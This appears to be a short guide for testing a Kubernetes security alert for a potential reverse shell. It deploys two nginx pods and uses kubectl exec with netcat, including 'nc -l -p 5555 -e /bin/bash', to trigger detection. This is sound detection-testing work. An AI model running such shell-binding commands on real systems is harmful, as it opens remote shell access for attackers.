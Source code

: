 # Detection of a potential reverse shell

Analysis of processes running within a container or directly on a Kubernetes node, has detected a potential reverse shell. These are used to get a compromised machine to call back into a machine an attacker owns

This is categorized as a Medium severy alert

This alert maps to Exfiltration and Explotation with MITRE ATT&CK® tactics

Create a deployment definition file as this

we will use 2 pods, one as the server listening for incoming connections and another as the client which will issue reverse shell commands

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: nginx-deployment
  labels:
    app: nginx
spec:
  replicas: 2
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      containers:
      - name: nginx
        image: nginx:1.14.2
```
Now we need to find the ip address of the 2 new deployed pods
```
kubectl get pods -o wide
```

Enter into one of the pods used as the server
```
kubectl exec -it <name-of-serverpod> -- /bin/bash
```
and issue netcat to listen to incoming connections of a port of choice
```
nc -n -v -l -p 5555 -e /bin/bash
```
Enter into the client pod and issue the netcat command
```
nc <ipaddress-of-serverpod> 5555
```

and wait for the Defender alert to appear

![reverse-shell](/images/reverse-shell.png)